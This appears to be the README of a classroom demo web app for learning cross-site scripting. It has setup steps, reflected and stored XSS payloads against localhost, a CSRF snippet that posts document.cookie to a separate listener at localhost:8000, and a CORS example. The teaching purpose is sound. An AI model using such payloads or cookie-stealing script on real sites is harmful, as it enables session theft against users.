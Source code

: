 # Vulnerabilities in WebApplications: XSS


## Environment setup

1. `sudo apt-get install libffi-dev`
2. `sudo apt-get install virtualenv`
3. `virtualenv -p python3 venv`
4. `source venv/bin/activate`
5. `pip install -U setuptools && pip install -U pip`
6. `cd xss-demo/app`
7. `pip install -r dev_requirements.txt`
8.  `python setup.py develop`
9.  **Start the application:**  `pserve development.ini`
10. Access it on [http://localhost:6543](http://localhost:6543/ "http://localhost:6543/")


## Types  of  Cross-site  Scripting

![Server-XSS vs Client-XSS Chart.jpg](https://www.owasp.org/images/c/c6/Server-XSS_vs_Client-XSS_Chart.jpg)

## Reflected  XSS  Attack

In a Reflected XSS it is assumed that the attack is non-persistent.

With this attack it becomes possible to manipulate the browser Domain ObjectModel (DOM) for a single user, or for multiple users which access a page through the same specially crafted URL.

**Examples:**

 - Launch na alert to the user:  `http://localhost:6543/search?q=<script>alert("hi")</script>`
 - Redirect the user to another page: `http://localhost:6543/search?q=<script>window.open("https://www.google.pt")</script>`
​

## Stored  XSS  Attack

The Stored XSS Attack (or persistent) allows an attacker to place a maliciousscript (usually Javascript) into a webpage.

Victims accessingthe webpage will render all scripts, including the one injected by the attacker.

This attack is very common in place where information is shared betweenusers through web technologies (e.g., forums and blogs).

At the example of the class, we add a comments section where the body input is not protected, I will present some possible examples of this attack:

 - Loads an image to the comment: `<img src=‘img.png’></img>`
 - Launch na alert to the user:  `<script>alert("hello!")</script>`


## CSRF  Attack

The Cross-Site Request Forgery (CSRF) attack consists in injecting code that, using the credentials and capabilities of the browser viewing a given object, may attack another system.

This attack can be used for simple Denial-of-Service (DoS) or Distributed Denial-of-Service (DDoS), tracking users, or invoke requests on systems with the identity of the victim.

This exploits the fact that, for usability, functionality, and performance pur-poses, systems cache authentication credentials in small tokens named **cookies**.

This attack is frequently done using the `<img>` tag, however, other tags canbe used.
```
$.ajax({
    url: "http://localhost:8000/cookie",
    type: "POST",
    data: {
        username:"Joao",
        // we add the 'a' to blind init the cookie when the browser does not have the cookie's value stored
        cookie: "a" + document.cookie,
    }
});
```


## Cross-Origin Resource Sharing (CORS)

Cross-Origin Resource Sharing (CORS) is a mechanism that uses additional HTTP headers to tell a browser to let a web application running at one origin (domain) have permission to access selected resources from a server at a different origin.

A web application executes a cross-origin HTTP request when it requests a resource that has a different origin (domain, protocol, and port) than its own origin.
```  
<script>  
    $.ajax({  
        url: "http://external:8000/smile.jpg",  
        type: "GET",
        headers: {
            "Image-Request": "this image will pass",
        },
        success: function() {
            alert("smile.jpg loaded");
        },
    });
</script>
```
